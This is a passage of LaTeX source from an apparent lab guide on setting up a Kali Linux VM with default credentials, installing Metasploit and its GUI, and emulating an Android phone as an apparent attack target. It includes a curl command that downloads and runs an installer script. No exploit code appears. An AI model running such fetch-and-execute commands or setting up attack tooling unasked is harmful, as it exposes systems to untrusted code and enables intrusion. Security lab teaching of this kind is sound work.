%     
\includegraphics[scale=0.5]{pics/settings3.PNG}
%     \caption{USB settings}
% \end{figure}
% Click \textbf{OK} to save all your settings changes. You should now be able to start up the Kali Linux virtual machine. Click on the \texttt{Start} icon which is shown by a green arrow. Once the virtual machine starts up you will be taken to the login screen. enter the following for the username and password:
% \begin{itemize}
%     \item Username: \texttt{kali}
%     \item Password: \texttt{kali}
% \end{itemize}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/kalimain.PNG}
%     \caption{Kali Linux login screen}
% \end{figure}
% Once you are successful in logging in, you will be greeted by the following splash screen of the Desktop.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/kalihome.PNG}
%     \caption{Kali Linux's Desktop}
% \end{figure}
% \section{Metasploit on Kali Linux}
% \subsection{Installation for the command line}
% By default Kali Linux comes with Metasploit out-of-the-box. However, to install Metasploit on a Linux operating system the following has to be done.
% Go to the following GitHub url:\\ \url{https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers}\\
% Copy the following command: 
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/
% templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
%   chmod 755 msfinstall && \
%   ./msfinstall
% \end{minted}
% Open up the terminal and paste the command copied. Thereafter press \textbf{Enter} to run it. If a password is required, Enter: \texttt{kali}\\\\
% Once the package has been installed you will see the screen as shown in Figure~\ref{fig:fig11}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/meta1.PNG}
%     \caption{Metasploit Framework's GitHub page}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/meta2.PNG}
%     \caption{Terminal asks for root access}
% \end{figure}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/meta3.PNG}
%     \caption{Terminal completed installing package}
%     \label{fig:fig11}
% \end{figure}
% \subsection{Graphical User Interface (GUI) installation}
% To install the Graphical User Interface (GUI) go to the following GitHub url:\\ \url{https://github.com/scriptjunkie/msfgui}\\\\
% Thereafter run the following command in the terminal (Preferably change the directory to the Desktop beforehand):
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% cd ~/Desktop
% git clone https://github.com/scriptjunkie/msfgui.git
% \end{minted}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.4]{pics/meta4.PNG}
%     \caption{GUI folder added to the Desktop}
% \end{figure}
% A directory titled \texttt{msfgui} will now to added to your Desktop. To run the GUI the following steps have to be carried out.\\
% Firstly change directories to the following: \texttt{/opt/metasploit-framework/bin}. This can be done by running the command below in the terminal.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% cd /opt/metasploit-framework/bin
% \end{minted}
% Thereafter run the \texttt{msfconsole} shell script. This can be done by running the command below.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% sudo ./msfconsole
% \end{minted}
% If you are prompted for a root password, Enter: \texttt{kali}. Thereafter, If you are prompted with the following: \textit{"Would you like to use and setup a new database (recommended)?"}, Type \textbf{n} or \textbf{no} and press \textbf{Enter}.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/startm1.PNG}
%     \caption{Type 'n' for No}
% \end{figure}
% Thereafter once ever thing is completed you should see that the terminal now has changed its prompt to the following.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% msf6 > _
% \end{minted}
% This is shown in the picture below. This means that the Metasploit Framework has started up its service in the terminal. With this being done we can now move on to the next step of running the Graphical User Interface (GUI). Firstly you will have to open up a new terminal and change directories to the Desktop. So we can access the directory that was recently created i.e. \texttt{msfgui}. The commands are shown after Figure~\ref{fig:fig12}
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/startm2.PNG}
%     \caption{Type 'n' for No}
%     \label{fig:fig12}
% \end{figure}
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% cd ~/Desktop/msfgui
% \end{minted}
% Thereafter run the \texttt{msfgui} shell script. This can be done by running the command below.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% ./msfgui
% \end{minted}
% Make sure the other terminal that is running the Metasploit command line is also running when the above mentioned command is run. If you are shown the prompt below. Click on \textbf{Yes}.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.4]{pics/prompt1.PNG}
% \end{figure}
% Thereafter another window will pop up. Let it automatically make a choice. If it does not close, then click on the option \texttt{Start new msfrpcd} as shown in the figure below.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.4]{pics/prompt2.PNG}
% \end{figure}
% The Metasploit Framework Graphical User Interface (GUI) will now be up and running. This is shown in the figure below.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.4]{pics/metaguimain.PNG}
%     \caption{The main screen for the Metasploit Framework GUI}
% \end{figure}
% \section{Android Emulation}
% For the first scenario covered in Section~\ref{sec:sec1} we will utilise an Emulator to virtualise an Android phone. This is keeping in line with the topic of virtualisation mentioned in Section~\ref{sec:sec2}. To emulate such a device you will need the Android Software Development Kit (SDK) or an ISO image which can be downloaded for VirtualBox. The SDK can be downloaded from the following url: \url{https://developer.android.com/studio}. Below is a screenshot of this page.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.4]{pics/as1.PNG}
%     \caption{Homepage of Android Studio}
% \end{figure}
% The url for the ISO image can be acquired from the Android-x86 Project's site located at: \url{https://www.android-x86.org/}\\
% Below is screenshot of this site.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/andro-proj.PNG}
%     \caption{Homepage of Android-x86}
% \end{figure}
% Once the ISO image has been downloaded create a new virtual machine in VirtualBox and attach the ISO. Thereafter assign the default recommended amounts of Processors, Storage, Memory etc. as was done with Kali Linux above. Below is a screenshot of the VM once it has been set up.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/andro-proj2.PNG}
%     \caption{Android VM main screen}
% \end{figure}
% Therefore open up the link in the browser of Kali Linux and click on button \textbf{Download Android Studio}. Thereafter Agree to the Terms and Conditions and click on the \textbf{Download Android Studio} button once again.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/as2.PNG}
%     \caption{Agree to the terms and conditions}
% \end{figure}
% After the file has been downloaded you will see it is a \texttt{tar.gz} file. You can extract it to the Desktop either using the command line or the File Explorer. Below both options are shown. Run the following command in a terminal where the file was downloaded.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% tar -xf filename.tar.gz -C /home/kali/Desktop
% \end{minted}
% The figure below shows a folder named \texttt{android-studio} created on the Desktop.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/as3.PNG}
%     \caption{File extracted with the File Explorer}
% \end{figure}
% We can now start up Android Studio and thereafter create an Android phone emulator. You will have to run the \texttt{studio} shell script inside the Android Studio folder. This can be done by running the commands below.
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% cd ~/Desktop/android-studio
% \end{minted}
% Thereafter,
% \begin{minted}
% [
% frame=lines,
% framesep=2mm,
% baselinestretch=1.2,
% bgcolor=LightBlue,
% fontsize=\footnotesize,
% breaklines,
% breaksymbolleft=\carriagereturn
% ]
% {Shell}
% ./studio
% \end{minted}
% You will be prompted with \texttt{Import Android Studio Settings}. Choose the \textbf{Do not import settings} and click \textbf{Ok}.
% \begin{figure}[H]
%     \centering
%     
\includegraphics[scale=0.5]{pics/as4.PNG}
%     \caption{Do not import settings}
% \end{figure}
% \begin{figure}[H]
%     \centering
